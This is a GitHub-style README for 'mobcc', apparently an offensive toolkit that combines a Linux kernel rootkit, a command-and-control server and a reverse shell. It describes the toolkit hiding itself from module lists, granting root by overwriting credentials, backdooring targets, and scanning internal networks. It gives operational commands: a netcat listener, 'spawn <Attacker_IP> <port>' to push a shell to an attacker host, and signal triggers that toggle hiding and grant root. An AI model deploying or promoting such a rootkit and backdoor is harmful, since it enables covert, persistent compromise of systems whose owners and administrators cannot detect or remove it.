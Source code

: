 # mobcc

Mob CC is a framework containing a Linux kernel rootkit, C2 server and Reverse shell with network scanning capabilities.


Add Devices using the below link. (If you are using the kernel module then this step will be automatically done by that.)

Select the added Device and start sending commands to the target system.

As you may directly get root access but incase you don't get root access then check commands to gain root privilege.

You can also spawn a new shell and transfer it to any other attacking system by giving the IP of the attacking system.

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer.h is a helping module which is basically trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide itself from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by autocollecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and recieve response from the target system via reverse shell.
  - Provide list of all the commands and response from every compromised system.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Note:
  - Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.
  - No one can remove the module if it's hidden.

---

# Help
  - To spawn a new shell from different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'
  - To scan the internal network from the target system. 'scan'
  - To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'
  - To toggle between hide and show the kernel module. 'kill -63 1'
  - To gain root privilege in the target machine from any other attacking machine using reverse shell like above.'kill -64 1'

---


Resource: Linux Kernel rootkit
https://xcellerator.github.io/posts/linux_rootkits_01/
